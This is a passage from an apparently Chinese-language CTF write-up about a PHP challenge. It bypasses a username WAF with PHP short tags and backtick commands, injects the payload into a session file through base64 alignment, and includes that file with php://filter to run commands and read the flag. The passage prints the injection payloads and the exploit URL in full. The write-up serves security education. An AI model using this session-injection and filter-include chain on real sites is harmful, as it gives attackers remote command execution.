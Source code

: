 例子：

![1567755726983.png](https://i.loli.net/2019/09/15/bQ19qaRPDOrkSIe.png)

简单来说就是编码就是将 3 个字符变成 4 个字符，解码就是将 4 个字符变成 3 个字符。

所以要想成功我们在用户名注入的 base64，我们首先要确保 base64 前面的字符串能够被解码成功（乱码也没关系，成功就行），那段字符串就是`user|s:4:"`，一共 10 个字符，要想成功被解码，至少要凑到 12 个字符，而这里的数字 4 是代表是 base64 字符串的长度，是我们可控的，如果我们能够把 base64 的长度控制在 [100,999]，我们就能把前面的字符串控制在 12 个字符的长度了。

### 绕过 waf

```php
if(preg_match('/(php|script|\$|_| |GET|POST)/',$username)){
	die("try else!");
}
if(strlen(count_chars($username, 3))>15) {
	die("too many!");
}
```

接下来就是要绕过 waf 了，不能用`php|script|\$|_| |GET|POST`，使用的字符不能超过 15 个，这确实有点难顶，但是 php 有一个很容易被疏忽的点，那就是**短标签**。

`<? ?>`是短标签，`<?php ?>` 是长标签。在 php 的配置文件 php.ini 中有一个`short_open_tag` 的值，开启以后可以使用 PHP 的短标签：`<? ?>`，同时可以用 `<?=` 以代替 `<? echo` 。

如果我们可以构造出

```php
<?=`ls\t/`;

```

那我们就可以进行命令执行了，其中反引号 ` 是用来执行命令的，\t 是为了绕过空格。

注册用户名

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;<?=`ls\t/`;
```

登陆拿到 PHPSESSID 访问文件成功写入 websehll

![1567764251160.png](https://i.loli.net/2019/09/15/9lJ48iCeUKGxrcP.png)

![1567764287737.png](https://i.loli.net/2019/09/15/HhIn1Np6R5atmuc.png)

访问`http://111.231.101.223:10006/index.php?action=php://filter/read=convert.base64-decode/resource=/var/lib/php/sessions/sess_8cvnbevjitju9pqj932tu12tm7`

![1567764322841.png](https://i.loli.net/2019/09/15/i35avhZjoJH4GIu.png)

看到 flag 了，这里可以用通配符读 flag。

再注册一个用户

```
;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;<?=`cat\t/*g`;
```

重复以上步骤拿到 flag。

![1567764486590.png](https://i.loli.net/2019/09/15/R7wCZejs38xvDW1.png)